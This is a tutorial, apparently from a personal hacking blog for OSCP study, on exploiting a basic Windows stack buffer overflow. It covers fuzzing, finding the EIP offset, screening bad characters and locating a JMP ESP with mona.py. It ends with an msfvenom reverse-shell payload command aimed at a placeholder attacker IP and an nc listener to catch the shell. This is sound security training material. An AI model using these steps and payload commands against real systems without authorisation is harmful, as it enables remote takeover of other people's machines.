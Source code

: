 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger ([Immunity Debugger](https://www.immunityinc.com/products/debugger/) is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

So you'll need to know a few key pieces of controlling EIP

The EIP (Extended Instruction Pointer) register controls the execution flow of the application. Think of it as a steering wheel of a car, you can direct it where to go.

The ESP (Extended Stack Pointer) is an indirect memory operand pointing to the top of the stack. This is the point where the instructions that use the stack, actually use it.

Here are a view of these values in Immunity  
![EIP & ESP Example](/assets/images/eip_esp_example.jpg)

There are two basic tactics when attempting at controlling the EIP
Binary Tree Analysis (manual way) - essentially you split the buffer in a series of same characterws until you notice the EIP getting over-written
Example: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCCCCDDDDDDDDDD

Unique String (automated way) - send a unique string so you can see which 4 bytes are written in the EIP.
Example: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4

Naturally you are going to want to use the Unique String Method whenever possible as it can cut down on discovery time and possibly lead to fewer mistakes.

- Create a unique string that's the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: `pattern\_create.rb 2200` <-- size of your buffer
- Place the output inside your script
- Run script and locate EIP's bytes  
![EIP](/assets/images/eip.jpg)
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: `pattern-offset.rb 13731415` <--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404th byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----the last part is to fulfill the orginial 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, etc.). As a side note null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13
\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26
\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39
\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c
\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72
\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85
\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98
\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe
\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1 
\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4 
\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7 
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`  
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken, malformed, omitted
- Remove the character from the buffer and continue until you&#39;ve completed them all

Example  
![Bad Characters](/assets/images/badchars.jpg)  

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: `!mona find –s "\xff\xe4" –m <vulnerable module>`  
![Mona](/assets/images/mona.jpg)  
  - Test and place the location within your fuzzer  
![JMP ESP](/assets/images/jmp_esp.jpg)  

By redirecting the EIP to our newly found address, at the time of the crash, a JMP ESP instruction will be executed, which will lead the execution flow into our shellcode

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  `msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT NUMBER> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "<BAD CHARACTERS>`  
![Shellcode](/assets/images/shellcode.jpg)  
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: `nc –lvp <PORT NUMBER>`  
- Fire off your script and if everything works right you should be presented with a reverse shell from your target  
![Reverse Shell](/assets/images/shell.jpg)  
